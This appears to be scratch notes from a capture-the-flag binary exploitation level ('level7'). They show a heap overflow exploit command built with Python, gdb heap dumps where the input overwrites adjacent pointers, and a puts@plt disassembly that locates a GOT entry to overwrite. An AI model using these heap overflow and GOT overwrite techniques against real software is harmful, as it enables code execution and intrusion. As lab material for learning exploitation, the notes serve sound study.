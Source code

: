 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"


"------------HEAP-----------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x42424242
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000


(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"

  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038
  
 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  
  
  
  
  
